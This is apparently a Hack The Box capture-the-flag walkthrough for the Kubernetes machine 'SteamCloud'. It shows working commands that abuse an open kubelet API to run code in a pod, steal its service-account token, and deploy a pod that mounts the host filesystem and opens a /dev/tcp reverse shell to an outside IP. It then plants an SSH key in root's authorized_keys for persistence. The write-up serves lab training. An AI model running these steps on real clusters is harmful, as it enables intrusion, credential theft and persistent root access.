

# [SteamCloud](https://app.hackthebox.com/machines/steamcloud)

```bash
nmap -p- --min-rate 10000 10.10.11.133 -Pn  
```


After detection of open ports, let's do greater nmap scan here for these ports.

```bash
nmap -A -sC -sV -p22,2379,2380,8443,10249,10250,10256 10.10.11.133 -Pn
```


That's `K8S` , we need to pentest ports (8443,10250) more specifically.


For this, I will use this [blog](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/pentesting-kubernetes-services).

Let's start from port `8443`.

I try to make `anonymous` enumeration, but it doesn't work.

```bash
kubectl --server https://10.10.11.133:8443  get pod
kubectl --server https://10.10.11.133:8443  get namespaces
kubectl --server https://10.10.11.133:8443  get cluster-info
```


Let's switch into port `10250` which is `Kubelet API`. For this I use [`kubeletctl`](https://github.com/cyberark/kubeletctl) command.


```bash
kubeletctl pods -s 10.10.11.133
```


Let's see **running** pods.
```bash
kubeletctl runningpods -s 10.10.11.133 | jq -c '.items[].metadata | [.name, .namespace]'
```


Let's try to inject some system commands to `nginx` pod via `kubeletctl` command.
```bash
kubeletctl -s 10.10.11.133 exec "id" -p nginx -c nginx
```


While I try to do `reverse shell`, but it doesn't work.

That's why I try to submit just `/bin/bash` to get shell.
```bash
kubeletctl -s 10.10.11.133 exec "/bin/bash" -p nginx -c nginx
```

user.txt


From [this](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/kubernetes-enumeration#service-account-tokens) information, I need to check these files that I can read or not.

```bash
kubeletctl -s 10.10.11.133 exec "ls /run/secrets/kubernetes.io/serviceaccount" -p nginx -c nginx
```


I have three of them being `ca.crt`, `namespace` and `token`.

**ca.crt**: It's the ca certificate to check kubernetes communications
**namespace**: It indicates the current namespace
**token**: It contains the service token of the current pod.


Let's get `token` and `ca.crt` files as below.
```bash
kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee ca.crt
kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee token
```


Let's add this token into `environment` variables on our machine via `export` command which we will use to authenticate into `k8s`  by using certificate also.

```bash
export token=$(kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx)
```


Now, it's time to check we have authentication is valid into `k8s` or not via `kubectl` command.
```bash
kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token get pod
```




Let's create malicious `pod` via below `.yaml` file.
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: dr4ks-malpod
  namespace: default
spec:
  containers:
  - name: dr4ks-malpod
    image: nginx:1.14.2
    command: ["/bin/bash"]
    args: ["-c", "/bin/bash -i >& /dev/tcp/10.10.14.18/1337 0>&1"]
    volumeMounts:
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

While I create a pod via above `.yaml` config file, I will get reverse shell from port `1337`. For creation of pod, I will use `kubectl apply` command.
```bash
kubectl apply -f dr4ks_malpod.yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
```


Hola, I got reverse shell from port `1337`.


root.txt


To get persistent shell, I need to add my public key into `/mnt/root/.ssh/authorized_keys` file as below.
```bash
echo "{public_key}" > /mnt/root/.ssh/authorized_keys
```


Then, I can join to host via private key `id_rsa` file.
```bash
ssh -i /root/.ssh/id_rsa root@10.10.11.133
```

